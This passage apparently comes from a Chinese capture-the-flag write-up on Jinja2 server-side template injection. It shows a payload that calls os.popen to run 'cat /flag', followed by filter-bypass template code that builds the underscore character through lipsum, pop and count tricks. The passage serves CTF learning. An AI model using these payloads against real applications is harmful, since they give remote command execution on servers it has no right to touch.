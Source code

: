 但是这道题不需要

然后我们首先确定一下我们需要的payload

```lisp
(lipsum|attr("__globals__").get("os").popen("cat /flag").read()
```



这个时候我们需要获取_通过lipsum|string|list

这个时候可以通过 pop方法

## 获取_

### 先需要获取pop

```perl
pop方法可以根据索引值来删除列中的某个元素并将该元素返回值返回。
```

```perl
{%set pop=dict(pop=a)|join%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c769ad8f88c89b80e5fe54c97fc45521.png" alt="" style="max-height:297px; box-sizing:content-box;" />


```cobol
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)%}{%print xiahuaxian%}
 
然后我们数 可以发现 _ 在24 所以我们索引即可
 
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}{%print xiahuaxian%}
```
